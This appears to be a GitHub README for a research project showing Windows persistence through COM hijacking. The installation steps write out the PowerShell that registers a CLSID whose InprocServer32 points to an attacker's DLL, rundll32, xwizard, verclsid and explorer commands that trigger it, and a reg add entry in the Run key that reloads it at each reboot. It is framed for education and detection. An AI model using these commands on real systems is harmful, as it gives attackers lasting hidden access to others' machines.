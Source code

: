 # 🔐  COM Proxy for Persistence   

## 📖 Project Description  
This project demonstrates how a **COM Proxy** can be implemented on Windows to simulate **persistence techniques**.  
The main goal is to **understand and analyze** the role of COM objects in persistence, and to provide a reference for **educational and research purposes only**.  

> ⚠️ **Important:** This project is strictly for **educational and defensive security research**.  
> Any misuse against unauthorized systems is **illegal** and the author is not responsible for any consequences.  

---

## ✨ Features  
✅ Simulates a custom COM Proxy on Windows  
✅ Creates and registers CLSIDs and `InprocServer32` entries for persistence  
✅ Demonstrates multiple execution methods (rundll32, xwizard, etc.)  
✅ Can be monitored with tools like **Sysmon**, **Process Explorer**, and **Event Viewer**  
✅ Fully compatible with modern Windows versions  

---

## 🛠️ Prerequisites  
- Windows 10 or higher   
- **Administrator privileges** to register COM objects in the registry  

---

## 🚀 Installation & Setup  

1. Clone the repository:  
```bash
git clone https://github.com/arminhosseinzadeh/Persistence-COM-Proxy.git
```

2. Open the project  

3. Run the **`clsid.ps1`** script.  
   This script creates a new **CLSID** under:  
   ```
   HKCU:\Software\Classes\CLSID\{$CLSID}\
   ```

4. Inside this path, it creates a registry subkey **`InprocServer32`** and assigns it as follows:  
   ```powershell
   New-ItemProperty -Path "HKCU:\Software\Classes\CLSID\{$CLSID}\InProcServer32" -Name "(default)" -Value $Payload | Out-Null
   ```

   Here, **`$Payload`** contains the path to the attacker’s DLL file:  
   ```powershell
   $Payload = "c:\mem\test.dll"
   ```


5. Once the COM object has been created and properly configured, the CLSID can be executed using one of the following commands: 

```powershell
rundll32 -sta {CLSID}
xwizard runwizard "{CLSID}"
verclsid /S /C {CLSID}
explorer shell:::{CLSID}
```

6. To make sure the malicious DLL is executed persistently, one of the above commands is placed in the Windows Run key so that after each system reboot the CLSID (pointing to the attacker’s payload) is executed again. The Windows Run key is located at:

```
HKCU\Software\Microsoft\Windows\CurrentVersion\Run
```

For this purpose, a new subkey named Armin (or any other name) is created as follows: 
```powershell
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /V Armin /t REG_SZ /d "rundll32 -sta {CLSID}"
```

As a result, Therefore, after every reboot (which would normally break the attacker’s access), the command "rundll32 -sta {CLSID}" is executed again, restoring the attacker’s access through the malicious COM object.

---

## 📊 Monitoring & Detection  

You can observe and analyze the behavior using:  
- **Sysmon** (Registry & Process events)  
- **Event Viewer**  
- **Process Explorer / Procmon**  
- **OLE/COM Object Viewer**  

---

## ⚠️ Disclaimer  

> **Warning ⚠️**  
> This project is created **for educational and research purposes only**.  
> It is intended to demonstrate how COM proxies can be used to achieve persistence on Windows systems, and to help security professionals better understand and detect such techniques.  
>   
> - Do **NOT** use this code on systems you do not own or do not have explicit permission to test.  
> - The author(s) of this project take **no responsibility** for any misuse or damage caused by the use of this code.  
> - By using this project, you agree to use it **solely for learning, testing, and defensive security research** in isolated and controlled environments (e.g., virtual machines).  

---

## 📚 Resources  
- [Microsoft COM Documentation](https://learn.microsoft.com/en-us/windows/win32/com/component-object-model--com--portal)  
- [Sysinternals Process Explorer](https://docs.microsoft.com/en-us/sysinternals/downloads/process-explorer)  
- [Sysmon Reference](https://docs.microsoft.com/en-us/sysinternals/downloads/sysmon)  

---

 
